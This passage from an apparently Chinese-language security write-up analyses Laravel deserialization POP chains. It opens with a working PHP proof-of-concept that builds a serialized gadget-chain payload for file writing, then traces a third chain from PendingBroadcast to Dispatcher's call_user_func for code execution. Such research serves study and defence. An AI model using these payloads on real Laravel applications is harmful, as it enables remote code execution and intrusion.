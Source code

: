 ```
    }
}

namespace {

    use Illuminate\Auth\RequestGuard;
    use Illuminate\Filesystem\Filesystem;
    use Illuminate\Notifications\ChannelManager;
    use Illuminate\Routing\PendingResourceRegistration;

    $c = new RequestGuard([new Filesystem(), 'append']);
    $b = new ChannelManager('call_user_func', [$c, 'user']);
    $a = new PendingResourceRegistration($b, 'ricky', 'ricky', 'ricky');
    echo urlencode(serialize($a));
}

```

POP 链 3

![](https://mmbiz.qpic.cn/mmbiz_png/ldFaBNSkvHiawuXdB6ia3xLsxlibDoIxR7k2R17hzg44wneSzevDFLn4uDxWBV0tlc3y4q2EybTK1hEJ1O7qF0TGw/640?wx_fmt=png)

入口类: Illuminate\Broadcasting\pendiongBroadcast

最后 RCE 调用类：Illuminate\Bus\Dispatcher

一开始使用 __destruct() 函数直接跟进到 dispatch 方法

```
public function dispatch($command)
{
        if ($this->queueResolver && $this->commandShouldBeQueued($command)) {
            return $this->dispatchToQueue($command);
        }

        return $this->dispatchNow($command);
    }

```

跟进一下 dispatchToQueue() 方法

```
 public function dispatchToQueue($command)
{
        $connection = $command->connection ?? null;

        $queue = call_user_func($this->queueResolver, $connection);

        if (! $queue instanceof Queue) {
            throw new RuntimeException('Queue resolver did not return a Queue implementation.');
        }

        if (method_exists($command, 'queue')) {
            return $command->queue($queue, $command);
        }

        return $this->pushCommandToQueue($queue, $command);
    }

```
